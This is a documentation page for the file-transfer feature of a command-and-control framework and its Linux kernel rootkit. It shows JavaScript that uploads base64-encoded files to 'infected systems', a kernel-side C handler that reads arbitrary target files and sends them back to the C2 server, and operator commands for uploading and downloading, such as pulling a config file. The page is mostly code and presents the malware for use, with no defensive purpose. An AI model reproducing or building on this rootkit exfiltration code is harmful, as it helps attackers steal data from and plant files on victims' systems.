 ```yaml
---
title: "File Transfer"
description: "Upload and download files between C2 server and infected systems"
icon: "file_copy"
date: "2025-05-30T00:00:00+01:00"
lastmod: "2025-05-30T00:00:00+01:00"
draft: false
toc: true
weight: 517
---
```


# File Transfer

Bidirectional file transfer between C2 server and infected systems using base64 encoding.

## Implementation

### Upload to Target
```javascript
// Server side (attacking_program)
function uploadFile(clientId, localPath, remotePath) {
    const fileBuffer = fs.readFileSync(localPath);
    const base64Content = fileBuffer.toString('base64');
    
    return sendCommand(clientId, 'UPLOAD', {
        filename: remotePath,
        content: base64Content,
        encoding: 'base64'
    });
}
```

### Download from Target
```c
// Rootkit side (file_commands.c)
int handle_download(const char *data)
{
    file = filp_open(filepath, O_RDONLY, 0);
    bytes_read = kernel_read(file, file_buffer, file_size, &pos);
    
    // Base64 encode and send
    base64_encode(file_buffer, file_size, encoded_buffer, &encoded_size);
    return send_result(encoded_buffer);
}
```

Files are encoded in base64 for JSON protocol compatibility.

## Usage

### WebUI
**[File Manager Panel](../../04-web-ui/features/panels/file-manager-panel.md)** provides:
- File browser with upload/download
- Drag-and-drop upload interface
- Progress indicators

### C2 Commands
```bash
# Upload file to target
upload Client-1 /local/path/file.txt /remote/path/file.txt

# Download file from target  
download Client-1 /remote/path/config.conf
```

## Storage

- **Uploads**: Stored in target filesystem at specified path
- **Downloads**: Saved to `attacking_program/downloads/` directory

Files retain permissions and timestamps where possible.